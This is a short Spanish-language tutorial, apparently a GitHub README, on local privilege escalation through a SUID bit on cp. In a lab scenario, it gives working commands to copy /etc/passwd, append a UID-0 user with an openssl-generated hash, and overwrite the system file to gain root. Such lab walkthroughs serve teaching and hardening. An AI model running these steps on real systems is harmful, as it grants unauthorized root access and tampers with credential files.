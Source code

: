 # Escalada de privilegios con cp usando el bit SUID
## Premisa
Supongamos un desarrollador "*maddev*", como excusa necesita actualizar su aplicación, y para agilizar el asunto pide habilitar el SUID en el comando ```cp```

## Pasos

1. Otorgamos el SUID a cp
```
sudo chmod u+s $(which cp)
```
![Otorgamos SUID a cp.](./img/Screenshot_20201031_203143.png)

2. Lo siguiente como usuario maddev será duplicarnos el fichero ```/etc/passwd```
```
cat /etc/passwd > ./passwd
```
> Usamos cat porque cp nos deja copiar, pero no editar, así que antes extraemos el contenido con cat y lo llevamos nuestro propio ```passwd```  

![duplicamos con cat](./img/Screenshot_20201101_035423.png)

3. Añadimos al fichero un nuevo usuario "*juan*" con perfil root, aprovechando que openssl viene instalado en todas las distros linux
```
echo "juan:$(openssl passwd -1 -salt fTTYcf34 juan123):0:0:root:/root:/bin/bash" >> passwd
```
> no nos complicamos con el salt y nos lo inventamos

![creamos un usuario nuevo en passwd](./img/Screenshot_20201101_040420.png)

4. Sustituimos con cp el passwd original por el nuestro, nos logeamos como juan y comprobamos si ya somos root.
```
cp passwd /etc/passwd
```
![Done](./img/Screenshot_20201101_041421.png)
